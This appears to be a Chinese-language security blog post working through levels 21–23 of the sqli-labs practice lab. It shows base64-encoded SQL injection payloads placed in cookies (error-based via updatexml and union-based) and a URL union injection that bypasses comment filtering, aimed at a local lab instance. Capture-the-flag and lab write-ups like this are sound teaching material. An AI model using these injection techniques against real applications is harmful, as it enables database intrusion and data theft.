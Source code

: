 ```yaml
---
layout: post
title: "sqli-labs-第21关->第23关"
subtitle: "sqli-labs-第21关->第23关"
date: 2019-09-04
author: ppbibo
category: security
finished: true
---
```

[TOC]

续 [sqli-labs-第16关->第20关](https://6o9.im/security/2019/09/03/sqli-labs-3.html)



## sqli-labs 第21关

查看源代码

![sqli-labs-21-0](/static/img/sqli-labs-21-0.png)



进行正常登陆后抓包发现 COOKIE 中 unmae 进行了 base64 编码 带入sql 拼接中进行了base64解码 **RT:**

![sqli-labs-21](/static/img/sqli-labs-21.png)



利用payload  (就是将你的sql语句进行base64编码带入cookie中 )   **RT：**

```bash
Cookie: uname=YWRtaW4xJyBvciB1cGRhdGV4bWwoMSxjb25jYXQoMHgzYSwoZGF0YWJhc2UoKSkpLDApLCcnLCcnKSM=

# 原语句：
# Cookie: uname=admin1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sql-labs-20-1](/static/img/sql-labs-20-1.png)



## sqli-labs 第22关

![sqli-labs-22](/static/img/sqli-labs-22.png)

跟第 21 关思路一样就是多了一个 双引号包裹起来直接闭合掉即可

```bash
Cookie: uname=YWRtaW4xIiB1bmlvbiBzZWxlY3QgMSwyLHZlcnNpb24oKSBsaW1pdCAxLDEj

# 原语句：
# Cookie: uname=admin1" union select 1,2,version() limit 1,1#
```

![sqli-labs-22-1](/static/img/sqli-labs-22-1.png)



## sqli-labs 第23关

查看源代码：

![sqli-labs-23](/static/img/sqli-labs-23.png)

当检查到有 # 或者 -- 都会替换为$replace 变量中的内容，而这个变量为空，所以替换为空，再赋值,直接闭合掉后面的就好了 **RT:**

```bash
http://192.168.1.101/sqli-labs/Less-23/?id=0' union select 1,version(),3 and 'aaa'='aaa
```

![sqli-labs-23-1](/static/img/sqli-labs-23-1.png)



